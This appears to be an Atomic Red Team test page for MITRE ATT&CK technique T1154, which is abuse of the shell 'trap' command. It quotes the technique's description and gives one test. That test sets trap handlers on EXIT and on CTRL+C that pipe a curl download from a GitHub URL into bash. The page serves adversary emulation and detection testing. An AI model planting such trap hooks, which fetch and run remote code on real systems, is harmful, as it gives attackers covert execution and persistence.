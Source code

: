 # T1154 - Trap
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1154)
<blockquote>The <code>trap</code> command allows programs and shells to specify commands that will be executed upon receiving interrupt signals. A common situation is a script allowing for graceful termination and handling of common  keyboard interrupts like <code>ctrl+c</code> and <code>ctrl+d</code>. Adversaries can use this to register code to be executed when the shell encounters specific interrupts either to gain execution or as a persistence mechanism. Trap commands are of the following format <code>trap 'command list' signals</code> where "command list" will be executed when "signals" are received.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Trap](#atomic-test-1---trap)


<br/>

## Atomic Test #1 - Trap
After exiting the shell, the script will download and execute.

After sending a keyboard interrupt (CTRL+C) the script will download and execute.

**Supported Platforms:** macOS, CentOS, Ubuntu, Linux


#### Run it with `sh`!
```
trap 'nohup curl -sS https://raw.githubusercontent.com/cvt111/atomic-red-team/master/atomics/T1154/echo-art-fish.sh | bash' EXIT
exit
trap 'nohup curl -sS https://raw.githubusercontent.com/cvt111/atomic-red-team/master/atomics/T1154/echo-art-fish.sh | bash' INT
```
<br/>
